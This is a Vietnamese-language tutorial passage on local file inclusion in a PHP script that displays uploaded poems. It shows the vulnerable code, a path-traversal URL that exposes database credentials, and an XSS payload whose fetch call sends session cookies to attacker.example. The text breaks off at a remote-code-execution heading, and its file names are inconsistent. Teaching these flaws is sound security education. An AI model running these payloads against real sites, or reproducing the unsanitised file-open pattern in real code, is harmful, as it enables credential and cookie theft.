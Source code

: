 # *LFI dẫn đến tiết lộ thông tin nhạy cảm*

  Nhà phát triển ứng dụng PHP muốn người dùng có thể đọc các bài thơ được lưu trữ trong các tệp văn bản trên máy chủ web. Những bài thơ này được ghi vào tệp văn bản, được tải lên bởi những người dùng khác và được lưu trữ trong một thư mục thơ tương đối . Sau đó, các bài thơ được hiển thị trong trình duyệt web như một phần của trang HTML. Sau đây là một đoạn mã từ tệp poems/display.php file.  
  
    <?PHP 
    $file = $_GET["file"];
    $handle = fopen($file, 'r');
    $poem = fread($handle, 1);
    fclose($handle);
    echo $poem;
    ?>  

  Như bạn có thể thấy, tên tệp được lấy trực tiếp từ tiêu đề yêu cầu HTTP. Do đó, bạn có thể truy cập và hiển thị một bài thơ có tên là poems.txt bằng URL sau:  
  
    http://victim.example/my_app/display.php?file=poem.txt  
    
# *Vectơ tấn công*
  
  Kẻ tấn công lạm dụng tập lệnh này bằng cách thao túng yêu cầu GET bằng tải trọng sau:  
      
      http://victim.example/my_app/display.php?file=../config/database.php
      
  Tập lệnh display.php điều hướng lên thư mục gốc của tài liệu rồi xuống thư mục con /config/ . Ở đó, nó bao gồm tệp cấu hình cơ sở dữ liệu database.php , chứa tên người dùng và mật khẩu được sử dụng để kết nối với cơ sở dữ liệu. Dữ liệu bị lộ dưới dạng một phần của mã HTML và kẻ tấn công chỉ cần kiểm tra mã nguồn của trang để tìm hiểu cách truy cập trực tiếp vào cơ sở dữ liệu.  
    
# **LFI dẫn đến XSS**

  Những kẻ tấn công cũng có thể sử dụng mã ở trên để nâng cấp cuộc tấn công XSS.  
  
# *Vectơ tấn công*

  Trước tiên, kẻ tấn công sử dụng chức năng tải lên tệp thơ để tải lên  **poem** sau đây dưới dạng tệp văn bản có tên là poems.txt:  
  
      <script>fetch("http://attacker.example?log="+encodeURIComponent(document.cookie));</script>

  Sau đó, kẻ tấn công gửi yêu cầu đưa bài thơ vào:  
  
      http://victim.example/my_app/display.php?file=poem42.txt  
      
  Vì nội dung của bài thơ được dự định sẽ được hiển thị trực tiếp như một phần của mã HTML, mã trang hiện bao gồm một lỗ hổng XSS. Kẻ tấn công có thể gửi liên kết này tới bất kỳ số lượng nạn nhân nào và bất kỳ ai mở nó sẽ nhận được cookie phiên của họ được gửi đến trang webattack.example do kẻ tấn công kiểm soát.  
# **LFI dẫn đến thực thi mã từ xa**  
